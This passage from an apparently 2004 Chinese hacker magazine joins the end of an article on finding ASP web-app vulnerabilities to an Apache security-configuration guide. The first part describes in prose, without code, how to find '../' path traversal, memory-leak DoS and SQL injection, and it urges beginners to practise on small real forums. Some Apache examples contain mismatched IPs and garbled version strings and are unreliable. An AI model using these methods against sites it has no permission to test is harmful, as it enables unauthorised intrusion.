还有一些特殊字符是比较容易想到的，经验性质的，前人也有过给出来，就是这个“../”。DVBBS 6.x 版本中有不少这样的问题，作为不能直接获得权限的，本来大家都留在手里当花瓶看看，后来黑过去黑过来的，到后继版本就被补掉了。比如删除头像的问题，就是当你设置你的头像路径时，用“../”穿透了本身应该所在的目录，设成了某个服务器上存在的文件，下次删除头像的时候，代码就错误地把你指定的文件给删掉了。这个漏洞也算是特殊字符吧，因为你提交的是一个文件及其路径，含有“../”的文件路径，无论从类型还是逻辑上来说，似乎都没有问题。

寻找这一类漏洞也有固定的方法，就是专门看处理文件的地方。所有处理文件的地方，只要有你能够控制或者是间接控制的，都去看看能不能用“../”来穿透，并想想穿透以后有没有什么严重的后果或者是可以利用的情况。如果不幸地，程序没有过滤掉这个，你又可以通过这个问题来挪移、删除一些文件，那么恭喜你，这就是一个漏洞。

还有很多的特殊字符，比如反斜杠、空格、小数点等等，在其它的语言中出现的问题比较多，ASP 中似乎还没有见到过，也许以后会有，也许你能想出一些利用的方法，这里就不废话了。

这一节内容很简单，主要是因为它出错的类型用一只手就能数得过来。特殊的字符，只有第一个人难想到，一旦想到公开以后，出错的类型就不大会变了。类型很死，找漏洞反而方便，而且也有固定的模式，更让人愉快的是这些固定的漏洞出现的机率非常之大，不出名的小论坛、下载系统、文章系统，随便抓一个来就是一大把。我想初学者寻求发现漏洞的乐趣，可以从这些类型的漏洞开始，先从小论坛之类开刀吧。

总结这里就不用了，三种大的情况，说得很清楚，依葫芦画瓢，只要存在漏洞，就肯定能够找出来。唯一要再三提醒的是细心和耐心，看一个下午的代码还是让人心烦的，要是两分钟找一个漏洞的话，每个人都去享受这样的快感了！

## ☆ DoS 的烦恼——其他

DoS（拒绝服务式攻击）似乎不是正统人士所为，要是哪天某人发了疯一定要 DoS 掉某个论坛什么的，促使他下决心的事情我想肯定不小。据传说记载，大家都喜欢分布式的攻击（DDoS）某台服务器，而其乐此不疲不图回报大有几十年如一日的架势。我虽然不太赞成这种无聊的手段，可是为了文章的完整性，还是要简单地写一写。

要通过程序本身对其进行 DoS，普通的手段就是耗尽内存，多个连接同时来耗内存的话，如果代码编写得好，好像也没有什么意义。比较好的方法是找找看有没有每次用过后没有释放的内存，如果有的话，造成一点点的内存泄露，反复利用多次以后，效果就可以扩大化了。

DVBBS 的一些测试版里面有这个问题，发现的人是原来学校网站的一个管理员 VM：在网站运行了十来个小时后就死机，最后通过代码审查发现似乎是少了一个 `Set xxx = Nothing` 的语句，添上就好了。按道理 ASP 应该有回收机制的，不知道这个问题是怎么形成的。

找这一类的漏洞，直接找有内存泄露的地方好了，没有什么好说的。其实我自己都不是很清楚 ASP 解释器的内部机制，继续谈下去的话，瞬间就没词了。也许还有其它方面的问题，这里就不写了。好归类的都归到了前面几类，独立的漏洞太特殊，不打算在这里一一列举。

开源代码的手工检测就是上面这些，写到这里的时候我突然看到了小榕的 WED 和 WIS，看来远程注入的测试也悄悄地成了香饽饽，不过说实话，我对黑盒测试，一直是持不信任态度的。

## ☆ 黑盒，我们能测出什么？

这里的黑盒包含了手工与自动化的两方面。

对于手工测试，像上面说到的很多漏洞，比如说特殊字符引起的问题，只能够验证而极少能够测出来。也就是说也许通过手工的方法你可以“发现”在你测试的这个地方，同样存在着你所熟知的一些问题，而倘若要凭空找出这些问题来，几乎是不可能。更加极端的话，后门也是测不出来的，就算你能穷尽所有的输入可能，但是触发后门的必要条件你不知道，也许方向性上就犯了错误，想要发现也是不可能的。再比如说，对于一段验证身份的代码，如果本身机制决定了密码是弱密码，而其它的加强条件可以被绕过（最简单的，过于简单的验证码），这种存在短时间内可以暴力破解的严重问题，完全是经验加上灵感（也许还有其它），手工测试都十分困难，自动化测试根本就是天方夜谭。

对于检查漏洞，黑盒的方法有很多的不利因素，市面上的东西，充其量只能算是检查工具，检查有没有已知漏洞，测试谈不上，更不用说发现了。那么，我们就界定了一个范围，抛开测试不提，单说检测是否存在已知类型的错误，在黑盒测试中怎么进行呢？或者我们把范围更加缩小，仅仅是检测是否有注入的问题，手工上该如何去做。

首先需要说明的是程序的特征，ASP 程序中，接收的可能输入必然在程序本身有所表现，而这种表现来自两方面，POST 的数据和 GET 的数据。试想，程序处理中存在某一个变量，只是凭空地 Request 过来，而在程序中没有任何机会给用户输入，那么这个变量不如设定成常量，或者是干脆不要。所以我们要找的输入可能，肯定大部分都在 `<form>` 和 `<a>` 中，前者的每一个成员都是可能的 POST 输入，后者的 URL 都是可能的 GET 输入，还有的也许存在于 JavaScript 中，如果可能，也都要抽取出来。还有程序可能处理到的输入，就是关于服务端变量的，比如 HTTP_USER_AGENT、HTTP_REFERRER 等，这些都是固定的可以枚举，做一个可能的表就可以了。

有了这些可能的输入以后，便要根据所有的可能输入构造测试用例。首先还要弄清楚字符串与枚举型的，有时候枚举型（比如投票系统中的选项）也会有注入的漏洞，但更多的情况下，也许你需要的是枚举这些类型，然后变换其它的类型。对于字符串之类的，按照经验加上单引号或者是分号就可以了，找出漏洞不是利用漏洞，先找到才有后面的事情。

所有的输入可能和所有的构造可能都已经弄好，下一步就是组合起来去测试网站，如果把所有的可输入都分为“正常”与“非正常”两种情况，组合的结果是有若干个可输入的话，至少有 2 的 N 次方种可能。要想完整测试，还是写程序吧。

手工测试可以有针对性一点，页面中看到有什么 type 为 hidden 的，可以先测试；不同页面的变量可以先不要跨过去测试。如果不是有特别的原因来全面测试一个网站，仅仅把单独页面内的变量进行测试就可以了。还有就是到底有没有漏洞怎么判定，也是一个问题。测试中间，如果有返回出错信息，基本上能够确定，其它的情况也许就要看具体的地方而言了，这个不好总结。

漏洞找到后的利用方法，网上的各种文章已经介绍得非常多了，这里就不再废话。

回过头来看市面上的检测注入的工具，很多只是找到 URL，然后把里面可能的注入情况测试一下，离全面检查还差得很远，作为玩具看看还可以。对付一般的可能漏洞也还过得去，真正遇到问题的时候，还是要自己动手。

看看前面的分析可以知道，要写一个比较好的程序还是可行的，因为算法不是很困难，关键就是时间。如果谁有大量的时间，建议不要用来睡觉，写一个这样的程序造福众生吧。

很多情况下，很多东西都要通过经验来判断，这一个过程比较漫长。首先要把所有的 ASP 都平坦化，该展开的展开，该包含的包含，然后选定一些容易出错的地方——通常是生成 SQL 语句的地方，找到参与的变量，前向切片，去掉所有没有影响或者是间接影响到的变量的语句，接着进行路径覆盖，看是否变量最初源于用户的输入，而且在一路下来的时候，经过了哪些处理，有没有过滤或者截断，最终在到达生成 SQL 语句的时候，有哪些可能，最后根据结果和经验库来判断漏洞是否存在。

除了 SQL 注入的问题能这样发现以外，类型、部分后门、特殊字符问题都可以很好地解决，关键在于经验库的选择。有时候，人本身可以扮演经验库这个角色，而且效果肯定比计算机好，这样子，工具就可以做成一个辅助性质的，最后一步令人头疼的经验库就可以省去。

关于利用模式匹配来识别错误/发掘漏洞的问题，很早以前 ACM 的论文就有过，个人的感觉是为了论文而论文的。模式匹配才不是想象中那么容易，虽然理论上说得通，但是实际编程上，可不是什么最长公共子串一类就能解决的，很有可能对不同的错误专门设计算法，而且还会涉及到程序理解甚至智能方面的问题。如果有程序说能够识别一小个种类错误，完全可能；倘若是说能够解决大部分的固定种类错误，恐怕还要等上好多年。这部分我有意专门写文章说明，真切希望有兴趣的朋友多多交流。

写到这里，差不多我能想到的找 ASP 漏洞的方面都涵盖到了。和在“遗失的可能”一章中说的一样，个人的能力毕竟有限，虽然我已尽力，但依然可能漏掉了很多东西。这篇文章中关于跨站，我写得很少，因为我对它的研究极少，只是比较认为可以归入注入一类中（不同的是不是注入 SQL 语句，而是注入到最后呈现给用户的 HTML 中），其它方面，或许还有很大的疏漏，如果有时间和能力，以后当一并补齐。

寻找漏洞是一个漫长的过程，对于寻找 ASP 漏洞的朋友，我想说的就是三点：一、耐心；二、实践；三、灵感。现在大一点的论坛，出现的漏洞有可能都跨越了很多文件，没有耐心仔细阅读的话，很容易就错过了；如果有想法记不住的话，最好动手写下来，好记性不如烂笔头嘛；漏洞看了很多，找漏洞的文章也看了很多，如果不去做做看，最后还是只有看别人找漏洞，所以一定要动手去做。关于灵感，这个不好说，有时候是突然间想到的，有时候是别人无意点醒的，这个虽然不能学习，但是如果长期注意积累，往往其它方面的知识可以有启发的作用。

### 还是模式匹配？

这可就真是吃饭的家伙了。倘若统统抖出来，我只好买个键盘，站在街边摆张纸条，写上“打手，替人打字，千字十元”找工作糊口去了。具体的资料请 email 索取，写出来的话，一来篇幅太长，再者看了这么长的文章，估计头也比较晕，再来一些公式定义，就该吐血了。

白盒测试能够测试的东西也有限，在不了解解释器的……

拿一个东西慢慢看，即使最后没有能够找到漏洞，对自己依然是提高。对所有的代码，我一直持尊敬的态度去读，因为别人做的事情是创造，而我们不过是在基础上修修补补或者是钻空子罢了。正所谓术业有专攻，别人不熟悉安全方面而犯下错误，是能够理解的，倘若以出现的问题去攻击代码开发者本身，这种行为就显得太浅薄了。

刘流：2004 年是新新的一年，在微软漏洞层出不穷的今天，如何架构一个安全的服务器，这将是新一年最时髦的话题。同时，我们的合法攻击平台“攻防实验室”也顺利开展两轮了，考虑到要为大家提供一个接近真实的入侵平台，我们策划在近几轮实验室中用 Apache 构建一个 Web 服务器，让大家尽可能地熟悉更多常见系统，拓宽自己的知识面。

当然，知己知彼，方能百战不殆，所以这次我们将 Apache 服务器的安全设定作为专题文章奉献给大家，虽然讲的是防护，但不了解防护你将永远不能提升自己的攻击技术！希望大家能真正领会“攻防对立统一”的辩证关系，在这对矛盾中找到突破口！



## 方框直击不俗——Apache 安全设置面面观

文／老牛

Apache 是根据 NCSA 服务器发展而来，NCSA 是最早出现的 Web 服务器程序之一，由伊利诺伊大学 Urbana-Champaign 分校的美国国家超级计算应用中心开发。在 Apache 的发展初期，主要是一个基于 UNIX 系统的服务器，它的宗旨就是建立一个基于 UNIX 系统的功能更强、效率更高并且速度更快的 WWW 服务器，这就决定了它是从其他的服务器演变而来的，并且添加了大量补丁来增强它在某一方面性能的 Web 服务器，所以被名为“APAtCHy Server（一个补丁组成的服务器）”。发展到今天，Apache 已经被移植到很多平台上，大概有 60% 的服务器都是采用 Apache。由此可见 Apache 的优势。为了帮助大家更好地防入侵，我们就一起来看如何配置一个常见的 Apache 服务器，希望能给大家的安全技术学习带来帮助！

### Apache 的安装

这里我们以 Linux 为例，Apache 会随 Linux 系统一起安装，如果安装的时候选了 Web Server 组件，系统中就有了 Apache。用户所做的工作，就是配置 Apache 使它满足自己的需要。

- 1. 检查系统是否存在 Apache 及版本

用户可以执行下面的指令来检查系统是否存在 Apache 及其版本：

```bash
rpm -qa | grep apache
```

如果存在 Apache，则会返回类似下面的字样：

```text
apache_1.3.19-3
apache_0.7-2
```

- 2. 不带 SSL 的 Apache 的安装

用户也可以下载 `apache_1.2.4.rpm` 软件安装包，然后以 root 身份使用 `rpm -ivh apache_1.2.4.rpm` 命令安装。

```bash
cd apache_1.3.9
./configure --prefix=/usr/local/httpd --active-modul=src/modules/php4/libphp4.a
make
make install
```

- 3. 带 SSL 的 Apache 的安装

要给 Apache 加上 SSL，必须另外准备 3 个文件：`mm-1.0.11.tar.gz`、`openssl-0.9.4.tar.gz` 和 `mod_ssl-2.4.5-*.tar.gz`。文件 mod_ssl 的版本必须与要安装的 Apache 的版本一致，即安装 Apache 的版本是 1.3.9，就准备 `mod_ssl-2.4.5-1.3.9.tar.gz` 文件。先安装 OpenSSL：

```bash
tar xf openssl-0.9.4*
cd openssl-0.9.4*
./config --fPIC
make
cd ..
```

接下来安装 MM：

```bash
cd mm-1.0.11
./configure --disable-shared
make
cd ..
```

然后安装 mod_ssl：

```bash
cd mod_ssl-2.4.5-1.3.9
./configure --with-apache=../apache_1.3.9
cd ..
```

最后安装 Apache：

```bash
cd apache_1.3.9
SSL_BASE=/openssl-0.9.4EAP1 MM=/mm-1.0.1b ./configure --enable-module=ssl --prefix=/usr/local/httpd --activate-module=src/modules/php4/libphp4.a
make install
cd ..
```

这样就完成了带 SSL 的 Apache 的安装，下面我们再来说说它常见的安全配置方式。

### Apache 的配置文件

对于 RedHat Linux 系统，Apache 的配置文件放在 `/etc/httpd/conf/` 目录下；如果是自行编译安装的 Apache，则视编译时指定目录而定，缺省是 `/usr/local/apache/conf`。在 conf 目录下有 3 个 Apache 的配置文件：`httpd.conf`、`access.conf` 和 `srm.conf`。Apache 启动时先调用 `httpd.conf`，然后调用 `srm.conf`，最后调用 `access.conf`。但现代版本的 Apache 为避免管理和维护混乱，已将相关配置命令放在 `httpd.conf` 中，不再使用 `srm.conf` 和 `access.conf` 中的内容。`httpd.conf` 文件内容分为 3 部分。

```text
Section 1: Global Environment
Section 2: Main server configuration
Section 3: Virtual Hosts
```

下面将讲述这 3 部分的用法和与安全相关的注意点。

### 1. Global Environment

`ServerType standalone` 用来指定 Apache 的启动方式。可选 `standalone` 和 `inetd`，其中 `standalone` 为默认方式。

`ServerRoot "/etc/httpd"` 指定 Apache 目录。

`LockFile /var/lock/httpd.lock` 保留默认值。

`PidFile /var/run/httpd.pid` 指定父进程 pid 文件。

`ScoreBoard /var/run/httpd.scoreboard` 指定进程处理信息文件。

`#ResourceConfig conf/srm.conf` 和 `#AccessConfig conf/access.conf` 在新版本中一般注释不用。

`Timeout 300` 设置超时时间。

`KeepAlive On` 设置客户端每个连接可有多个请求，设为 `Off` 时无效。

`MaxKeepAliveRequests 100` 设置每次连接期间允许的最大请求数。

`KeepAliveTimeout 15` 设置等待同一客户端下一请求的时间。

`MinSpareServers 5` 和 `MaxSpareServers 20` 设置空闲服务进程最小/最大数量。

`StartServers 8` 设置启动后的初始服务进程数。

`MaxClient 150` 设置服务运行总数量上限。

`MaxRequestsPerChild 100` 设置每个子进程处理请求后重启阈值。

```apache
#Listen 3000
#Listen 12.34.56.78:80
Listen 80
#BindAddress *
#LoadModule foo_module libexec/mod_foo.so
#ExtendedStatus On
```

`Listen 80` 设置 Apache 监听的端口/IP。

`BindAddress` 可指定监听 IP（支持虚拟主机）。

`LoadModule` 涉及 DSO 动态模块加载。

`ExtendedStatus On` 用于 `server-status` 运行状态信息查看。

### 2. Main Server Configuration

如果第一部分 `Global Environment` 中的 `ServerType` 设为 `inetd`，则这部分基本无效，可跳到 `ServerAdmin` 等指令。

`Port 80` 设置 Standalone 服务器监听端口。

`User apache` 和 `Group apache` 指定运行用户与用户组。

`ServerAdmin root@localhost` 设置管理员邮箱。

`#ServerName localhost` 设置主机名（域名/IP）。

`DocumentRoot "/var/www/html"` 设置网页目录路径。

```apache
<Directory />
Options FollowSymLinks
AllowOverride None
</Directory>
```

设定 Apache 能够访问的每一个目录，以及它们被访问时所执行的动作。本章节后面将详细叙述 Apache 的目录存取方法。

```apache
<Directory "/var/www/html">
    Options Indexes Include FollowSymLinks
    AllowOverride None
    Order allow,deny
    Allow from all
</Directory>
```

此处设定 Apache 网页目录的执行动作。后面我们将详细叙述目录的存取方法。

```apache
<Directory />
    AllowOverride None
    Options None
    Allow from all
</Directory>
```

类似上面的设置，可以防止用户创建自己的 `.htaccess` 文件。这一点非常重要，在这个文件中可以改变全局参数，以致影响到整个系统的安全。可以在 `httpd.conf` 文件中加入的目录指令都加上上面的代码。

`UserDir public_html`：设定用户在自己的目录下建立 `public_html` 放置网页，即 `/home/*/public_html/`，这样在浏览器地址栏输入 `http://apache服务器/用户名/` 就能显示网页。

`DirectoryIndex index.html index.htm index.shtml index.php index.php4 index.php3 index.cgi`：设定 Apache 的默认首页文档。

`AccessFileName .htaccess`：指定控制存取的文件名称。Apache 默认的是 `.htaccess`，后面我们将详细叙述该文件的用法。

```apache
<Files ~ "^\.ht">
    Order allow,deny
    Deny from all
</Files>
```

防止用户端看到 `ht` 开头的文件内容，因为 `.htaccess` 记录了相关信息，`.htpasswd` 记录了密码信息，为了安全不允许其他人访问这些文件。

`#CacheNegotiatedDocs`：指定 Proxy 服务器是否将交互产生的文件存在 cache，注释掉就是不指定。

`UseCanonicalName On`：设定是否使用标准名称，默认是 On。

`TypeConfig /etc/mime.types`：指定存放 MIME 文件类型的文件。

`DefaultType text/plain`：指定如果 Apache 不识别此文件类型时，按照预设格式显示，一般以纯文本显示。

```apache
<IfModule mod_mime_magic.c>
    MIMEMagicFile conf/magic
</IfModule>
```

`mod_mime_magic` 模块可以让 Apache 由文件内容决定其 MIME 类型。如果存在该模块，才会处理 `MIMEMagicFile` 这一段。

`HostnameLookups off`：设定 Apache 是否向名称服务器解析该 IP 地址并记录连接名称。因为 DNS 解析耗时，默认设为 off，仅记录 IP。

`ErrorLog /var/log/httpd/error_log`：指定 Apache 发生错误时记录文件的位置。

`LogLevel warn`：指定记录详细等级，常见等级有 `debug`、`info`、`notice`、`warn`、`error`、`crit`、`alert`、`emerg`。

```apache
LogFormat "%h %l %u %t \"%r\" %>s %b \"%{Referer}i\" \"%{User-Agent}i\"" combined
LogFormat "%h %l %u %t \"%r\" %>s %b" common
LogFormat "%{Referer}i -> %U" referer
LogFormat "%{User-Agent}i" agent
```

定义 4 种格式的别名：`combined`、`common`、`referer`、`agent`。

```apache
#CustomLog /var/log/httpd/access_log common
CustomLog /var/log/httpd/access_log combined
```

指定记录文件使用哪个自定义格式，其他不使用的自定义格式注释掉。以上是关于日志文件的，将在后面的 Apache 日志文件中详细叙述。

`ServerSignature On`：设为 On 时，当 Apache 产生错误时，在网页上显示 Apache 版本信息、主机名称、端口等；设为 Off 时不显示；设为 E-mail 时显示 mailto 管理员链接。

`Alias /icons "/var/www/icons/"`：使用较短别名映射真实路径，别名后若有 `/`，使用 URL 时也需带 `/`。

`ScriptAlias /cgi-bin/ "/var/www/cgi-bin/"`：设定服务器脚本目录，应强制使用 `ScriptAlias` 限制 CGI 程序位置，且 `cgi-bin` 目录不应在 html 目录下。

`IndexOptions FancyIndexing`：以特定图形显示文件清单，需以下文件配合。

```apache
AddIconByEncoding (CMP,/icons/compressed.gif) x-compress x-gzip
DefaultIcon /icons/unknown.gif
```

指定显示文件清单时各种文件类型的对应图形。

### 3. Virtual Hosts

这部分是设定虚拟主机的。所谓虚拟主机，就是指一台服务器作为多域名的 Web 服务器。ISP 经常通过一台服务器为它的客户提供 Web 服务，而客户希望主页以自己的名字出现，而不是在该 ISP 的名字后面。因为使用单独的域名和根网址可以看起来更正式一些。传统上，用户必须自己设立一台服务器才能达到单独域名的目的，然而这需要维护一个单独的服务器。很多小单位缺乏足够的维护能力，更为合适的方式是租用别人维护的服务器。ISP 也没有必要为一个机构提供一个单独的服务器，完全可以使用虚拟主机能力，使服务器为多个域名提供 Web 服务，而且不同的服务互不干扰，对外就表现为多个不同的服务器。虚拟主机就是解决这种问题的方案，使客户的域名实际指向 ISP 的同一台服务器。

Apache 有两种支持虚拟主机的方式：一是为每一个虚拟主机设置单独的 httpd 进程，二是为所有主机设置一个单独的 httpd 进程。

- 1. 为每一个虚拟主机设置单独的 httpd 进程：在 `httpd.conf` 文件的第一部分 Global Environment 中，通过 `BindAddress` 指令或 `Listen` 指令来指定虚拟主机的地址和端口。
- 2. 为所有主机设置一个单独的 httpd 进程：在 Virtual Host 部分，用 `<VirtualHost></VirtualHost>` 配置多个虚拟主机，并可分别指定 `ServerAdmin`、`ServerName`、`DocumentRoot`、`ErrorLog`、`TransferLog`。

虚拟主机有 3 种实现方式：以主机名称的方式虚拟、以 IP 的方式虚拟、以端口的方式虚拟。下面举例说明在 `httpd.conf` 的第 3 部分 Virtual Host 中实现上述方式。

- 1) 以主机名称的方式虚拟  
  如果用户的一台服务器有多个域名，举例如下：

```apache
NameVirtualHost 210.12.195.6
<VirtualHost hacker.com.cn>
    ServerAdmin bright@hacker.com.cn
    DocumentRoot /var/www/html/hacker
    ServerName hacker.com.cn
</VirtualHost>
<VirtualHost pcfrient.com.cn>
    ServerAdmin admin@pcfrient.com.cn
    DocumentRoot /var/www/html/pcfrient
    ServerName pcfrient.com.cn
</VirtualHost>
```

- 2) 以 IP 的方式虚拟  
  注册域名需要费用，也可以用 IP 来虚拟。在 Linux 中可以为一个网卡绑定两个 IP 地址。服务器地址是 `210.12.195.6`，将 `210.12.195.9` 绑定到网卡中，执行命令：

```bash
ifconfig eth0:0 210.12.195.9
```

这样，服务器就有两个 IP 地址了。以 IP 的方式虚拟和以主机名称的方式虚拟类似，看下面的例子：

```apache
NameVirtualHost 210.12.195.6
<VirtualHost 210.12.192.6>
    ServerAdmin bright@hacker.com.cn
    DocumentRoot /var/www/html/hacker
</VirtualHost>
<VirtualHost 210.12.192.9>
    ServerAdmin bright@hacker.com.cn
    DocumentRoot /var/www/html/pcfrient
</VirtualHost>
```

以 IP 的方式虚拟不用 `NameVirtualHost` 指令。

- 3) 以主机名称和 IP 的方式虚拟  
  就是上面的两种方式结合。看下面的例子：

```apache
NameVirtualHost 210.12.195.6
<VirtualHost hacker.com.cn>
    ServerAdmin bright@hacker.com.cn
    DocumentRoot /var/www/html/hacker
    ServerName hacker.com.cn
</VirtualHost>
<VirtualHost 210.12.195.6>
    ServerAdmin bright@hacker.com.cn
    DocumentRoot /var/www/html/pcfrient
</VirtualHost>
```

- 4) 以端口的方式虚拟  
  HTTP 默认端口是 80，如果用户要开设另一个端口 443 作为另一个虚拟主机，例如如下：

```apache
Listen 80
Listen 443
<VirtualHost 210.12.192.6:80>
    ServerAdmin bright@hacker.com.cn
    DocumentRoot /var/www/html/hacker
</VirtualHost>
<VirtualHost 210.12.195.6:443>
    ServerAdmin suying@hacker.com.cn
    DocumentRoot /var/www/html/pcfrient
</VirtualHost>
```

- 5) 以不同的 IP 和端口的方式来虚拟  
  该方式是以 IP 的方式虚拟和以端口的方式虚拟的结合。假设服务器绑定了两个 IP 地址 `210.12.192.6` 和 `210.12.195.9`，后面用端口 443，例子如下：

```apache
Listen 210.12.192.6:80
Listen 210.12.195.9:443
<VirtualHost 210.12.192.6:80>
    ServerAdmin bright@hacker.com.cn
    DocumentRoot /var/www/html/hacker
</VirtualHost>
<VirtualHost 210.12.195.9:443>
    ServerAdmin suying@hacker.com.cn
    DocumentRoot /var/www/html/pcfrient
</VirtualHost>
```

### Apache 设置目录级访问控制

缺省情况下，Apache 可以访问其权限允许的所有目录。虽然 Apache 必须以唯一的 UID 和 GID 运行，最好不允许它访问任何具有 world-read 权限（004）的文件。可以禁止 Apache 访问由版本控制系统（源代码控制软件）所使用的 RCS 目录，在 `httpd.conf` 中，典型指令如下：

```apache
<Directory />
    Order deny,allow
    Deny from all
</Directory>

<Directory "/home/*/public_html/RCS">
    Order deny,allow
    Deny from all
</Directory>

<Directory "/home/*/public_html">
    Order deny,allow
    Allow from all
</Directory>

<Directory /httpd/html/RCS>
    Order deny,allow
    Deny from all
</Directory>

<Directory /httpd/html>
    Order deny,allow
    Allow from all
</Directory>
```

`<Directory>` 总是和 `</Directory>` 成对使用，在它们之间的部分就是对指定目录的访问设置。目录名中可以使用正则表达式来同时匹配多个目录，但必须在表达式前附加 `~` 字符。

除了在 `httpd.conf` 文件中指定 Apache 的用户 `User` 和用户组 `Group`，并给指定的文件目录指派相应权限外，还可以通过 `<Directory>` 指令来控制目录的访问权限和访问方式。

在 `<Directory>` 指令中，有如下命令：`Options`、`AllowOverride`、`Order`、`Allow`、`Deny`。

#### 1. Options

用来指定在该目录及子目录下的文件可以采取的操作。可用参数有：`Indexes`、`Includes`、`FollowSymLinks`、`ExecCGI`、`MultiViews`、`None`、`All`。

`Indexes` 参数使 Apache 在没有找到缺省的索引文件时自动生成索引列表。`FollowSymLinks` 参数允许 httpd 按符号连接访问。`Includes` 参数使用服务器端包含 SSI。`ExecCGI` 指定该目录可以运行 CGI 程序。`MultiViews` 使 Apache 根据条件自动选择并返回合适文件。`None` 表明不使用这些参数，`All` 表明使用除 `MultiViews` 外所有参数。

#### 2. AllowOverride

除了在 `httpd.conf` 中指定目录访问权限外，也可以通过在目录下存放文件来控制目录权限。该文件名由 `AccessFileName` 指令指定，一般是 `.htaccess`。`AllowOverride` 命令有 6 个参数：`None`、`All`、`Options`、`FileInfo`、`AuthConfig`、`Limit`。

#### 3. Order, Allow, Deny

这 3 个指令需要配合使用来控制目录访问权限。`Order` 指定检查规则顺序：`Allow,Deny` 表示先检查 Allow 再检查 Deny；`Deny,Allow` 表示先检查 Deny 再检查 Allow。Apache 还有 `<File></File>` 指令，命令配置与 `<Directory>` 大体一致。

### 在 Apache 上运行 CGI

CGI 是 Common Gateway Interface 的缩写。它使 Web 服务器具备与客户端交互能力，程序在服务器上运行并处理浏览器提交的数据后返回结果。CGI 程序可以由 C、C++、Delphi、Perl 等语言编写。编译型语言速度快，脚本语言便于修改、移植和调试。

CGI 的缺点在于安全性与效率：编写不当容易成为攻击入口；每次执行 CGI 程序服务器都会产生一个进程，请求量大时效率较低。

常用 CGI 文件后缀名是 `.cgi` 和 `.pl`。通常需要给 CGI 文件执行权限（如 `chmod 755 login.cgi`），否则服务器会返回“禁止访问”错误。为有效控制 CGI 存取，建议在 `httpd.conf` 中合理配置 `ScriptAlias` 与 CGI 目录。

`/var/www/cgi-bin/` 下的所有文件视为 CGI 程序，如果程序编写不完善，一旦被黑客利用就会带来意想不到的后果。建议用下面的方式：在 `httpd.conf` 文件中，加入 `AddHandler cgi-script .cgi`，然后增加 `Alias /cgi-bin/ "/var/www/cgi-bin/"`，并修改目录权限配置。

```apache
<Directory "/var/www/cgi-bin/">
    AllowOverride None
    Options None
    Order allow,deny
    Allow from all
</Directory>

修改为：

<Directory "/var/www/cgi-bin/">
    AllowOverride None
    Options ExecCGI
    Order allow,deny
    Allow from all
</Directory>
```

这样 Apache 可以让该目录执行 CGI。浏览器请求 `http://.../cgi-bin/login.cgi` 时，Apache 会处理该请求并返回结果，而不是把 CGI 文件以文本返回。CGI 程序与 TCP/IP 80 端口直接交互，若未经安全分析容易被利用，需特别注意用户输入与潜在漏洞。

Apache 集成了 suEXEC 功能，可让 CGI 程序以程序拥有者身份运行，而非 Apache 运行用户。该功能默认可能未启用，并对可执行路径、目录权限、调用方式等有严格限制，否则会拒绝执行。

### Apache 日志文件

Apache 日志文件记录服务器对每次请求的响应信息。通过分析日志可获得访问统计、热门页面、错误记录以及与安全问题相关的信息。应经常查看日志，尤其是错误日志，以便尽快发现已发生或潜在的问题。

很多时候，除非用户注意到 Apache 异常，否则日志中的异常项目会最先指示系统被入侵。攻击者也会尝试编辑日志抹去痕迹。Apache 缺省保留访问日志和错误日志两个文件。

#### 1. 访问日志

RedHat 访问日志缺省是 `/var/log/httpd/access_log`。访问日志用于记录对 Apache 服务器的访问活动，可据此查看谁在何时从何处浏览了哪些内容。下面是一个典型记录：

```log
210.12.195.6 - - [10/Aug/2002:14:47:37 -0400] "GET / HTTP/1.0" 200 654
```

该行由 7 项构成。① 通常是远程主机 IP，也可通过 `HostnameLookups on` 记录主机名，但会影响性能；`HostnameLookups double` 还会做反向校验，默认一般为 `off`。② 常为空，用 `-` 占位，原用于记录浏览者标识（可能由 identd 或浏览器返回）。③ 也常为空，用于记录身份认证提供的用户名，若访问内容需要认证则可能出现该字段。项仍旧是空白的。

日志记录的第四项是请求的时间。这个信息用方括号“[]”包围，而且采用所谓的“公共日志格式”或“准英文格式”。因此，上例日志记录表示请求的时间是 2002 年 8 月 10 日星期六 14:47:37，时间信息最后的“-0400”表示服务器所处时区位于 UTC 之前的 4 小时。

日志记录的⑤或许是整个日志记录中最有用的信息，它记录了服务器收到的是一个什么样的请求。该项信息的典型格式是“METHOD RESOURCE PROTOCOL”，即“方法 资源 协议”。

在上例中，METHOD 是 GET，其他经常可能出现的 METHOD 还有 POST 和 HEAD。此外，还有不少可能出现的方法 METHOD，但主要就是这 3 种。

RESOURCE 是指浏览者向服务器请求的文档或 URL。在这个例子中，浏览者请求的是“/”，即网站的主页或根。大多数情况下，“/”指向 DocumentRoot 目录的 index.html 文档，但根据服务器配置的不同它也可能指向其他文件。

PROTOCOL 通常是 HTTP，后面再加上版本号。版本号或者是 1.0，或者是 1.1，但出现 1.0 的时候比较多。HTTP 协议是 Web 得以工作的基础，HTTP/1.0 是 HTTP 协议的早期版本，而 1.1 是最近的版本。当前大多数 Web 客户端程序仍使用 1.0 版本的 HTTP 协议。

日志记录的⑥是状态代码，记录了请求是否成功，或者遇到了什么样的错误。大多数时候，这项值是 200，它表示服务器已经成功地响应浏览器的请求，一切正常。一般地说，以 2 开头的状态代码表示成功，以 3 开头表示重定向，以 4 开头表示客户端错误，以 5 开头表示服务器错误。

日志记录的⑦表示发送给客户端的总字节数，它告诉用户传输是否被打断（即该数值是否和文件大小相同）。把日志记录中的这些值加起来就可以得知服务器在一天、一周或者一月内发送了多少数据。

> 由于日志文件是由 Apache 用户程序运行（在 httpd.conf 用 User 指令指定），因此必须注意这个文件要有安全保证，防止该文件被随意改写。

## 2．错误日志

Redhat 错误日志文件缺省是 /var/log/httpd/error_log。错误日志无论在格式还是在内容上都和访问日志不同。然而，错误日志和访问日志一样也提供丰富的信息，可以利用这些信息分析服务器的运行情况、哪里出现了问题。错误日志记录了 Apache 服务器运行期间遇到的各种错误，以及一些普通的诊断信息，比如 Apache 服务器何时启动、何时关闭等。

